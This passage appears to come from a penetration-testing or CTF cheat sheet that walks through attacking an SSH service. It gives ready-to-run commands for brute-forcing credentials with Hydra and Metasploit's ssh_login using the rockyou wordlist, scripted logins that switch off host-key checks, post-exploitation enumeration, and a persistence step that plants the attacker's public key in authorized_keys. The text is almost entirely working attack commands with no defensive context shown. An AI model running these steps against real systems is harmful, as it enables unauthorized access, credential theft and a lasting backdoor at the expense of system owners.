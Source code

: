 Hydra multiple users:
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -s $PORT -f -V -u $IP ssh
```
Tips:
- Use -t 4 (or similar) to throttle if the target is fragile.
- -f stops after the first valid credential is found.
- -u loops users first; useful with large lists.

Metasploit alternative (ssh_login):
```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE users.txt      # or: set USERNAME user1
set PASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set VERBOSE true
run
```

5) Log in via SSH and stabilize
```bash
# Direct SSH
ssh -p $PORT user@$IP

# Non-interactive automation (accept host key automatically)
ssh -p $PORT -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null user@$IP

# If you know the password and want to script it:
sshpass -p 'PASSWORD' ssh -p $PORT -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null user@$IP
```

6) Post-exploitation quick checks
```bash
id; whoami; hostname; uname -a
cat /etc/os-release 2>/dev/null || cat /etc/issue
ip a || ifconfig
sudo -l
```

7) Maintain access (optional, if you have a password)
```bash
# On attacker, create a key
ssh-keygen -t ed25519 -f ~/.ssh/ed25519-ep -N ""

# On target (as the compromised user), ensure ~/.ssh exists and add your pubkey
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "$(cat ~/.ssh/ed25519-ep.pub)" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Login with key
ssh -i ~/.ssh/ed25519-ep -p $PORT user@$IP
```
